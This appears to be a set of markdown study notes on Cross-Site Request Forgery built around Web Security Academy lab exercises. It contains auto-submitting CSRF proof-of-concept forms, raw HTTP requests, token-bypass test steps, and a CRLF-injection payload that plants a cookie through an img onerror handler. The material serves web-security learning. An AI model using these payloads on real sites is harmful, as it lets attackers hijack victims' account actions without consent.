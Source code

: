 # Cross-Site Request Forgery

# TABLE OF CONTENT
- **[Burp Suite CSRF PoF](#burp-suite-csrf-pof)**
- **[Bypass CSRF Token Validation](#bypass-csrf-token-validation)**
- **[Bypass SameSite Cookie Restriction](#bypass-samesite-cookie-restriction)**

## Burp Suite CSRF PoF 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8c00430370cdb281bc2110000d005a.web-security-academy.net/my-account" method="POST">
      <input type="hidden" name="id" value="wiener" />
      <input type="hidden" name="csrf" value="ASLKCEVLASKSfaksW" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Bypass CSRF Token validation


### Check if there's any csrf defense mechanism
We can check this by omitting the **`<input type="hidden" name="csrf" value="ASLKCEVLASKSfaksW" />`** part from the above payload. 

### CSRF where token validation depends on request method
Most requests are POST request, which validate the csrf token. However, when chaning these requests to other methods, the token is no longer valid. We can test this by changing the request method.

### CSRF where token validation depends on token bieng present
The token is only validated when it is present. When it is not ( by omitting the value field or the whole thinig like no defense mechanism scenario), there is no CSRF tokekn validation.

### CSRF token is not tied to the user session
Check if we can use CSRF token of 1 account to exploit another account. 
1. Log in account A and acquire its token
2. Log in account B and deliver the payload, modify the token with account A's token

### CSRF token is tied to a non-session cookie
Some applications use different frameworks for csrf tokens, which results in two different tokens being present at the same titme.

```bash
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

1. Check if the `csrfKey` is tied to `csrf`

| Steps | Results |
| ----- | ------- |
| Log in as `wiener:peter` and acquire the user's `csrfKey` and `csrf` values | |
| Capture the request trying to change the user's email. Modify the csrf token so it becomes invalid | If the application accepts the request, we can conclude the csrfKey and csrf are not tied together. Otherwise, continue to the next step. |
| Log in as `carlos:montoya` and capture the user's csrf. Replace wiener's csrf token with carlos' | If the application accepst the request, we can conclud the csrfKey and csrf are not tied together. Otherwise, continue to the next step. |
| Log in as `wiener:peter` and replace wiener's csrfKey and csrf tokens with carlos' | If the application accepts the request, we can conclue the csrf and csrfKey are tied together but the pair doesn't tie to the user-session cookie

2. Look for a functionality that allows us to modify the csrfKey. In this case, we can inject in the search function through GET request

```bash
https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()
```
In the response, we should see the `csrfKey` is set as we wish.
4. Deliver the payload

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac5009504bab9d186967b5f002b0096.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hello&#64;world&#46;com" />
      <input type="hidden" name="csrf" value="Your-csrf" />
      <input type="submit" value="Submit request" />
    </form>
      <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-csrfKey%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```
**NOTE:** In this case, we assume the search function allows us to set cookies. We can do it directly in the developer tool.

### CSRF where token is duplicated in cookie
Some applications have both csrf token in the session cookies and the request

```bash
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

1. Here we can make up any value for the csrf, either through the Developer Tools or through some functionalities that allow us to set cookie.
2. Deliver the payload (which has csrf set to the value we make up in step 1)

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8500dc04f529b58343a52300a900b2.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="oops12345&#64;example&#46;com" />
      <input type="hidden" name="csrf" value="random" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://0a8500dc04f529b58343a52300a900b2.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=random%3b%20SameSite=None" onerror="document.forms[0].submit();" />
  </body>
</html>
```

## Bypass SameSite Cookie Restriction

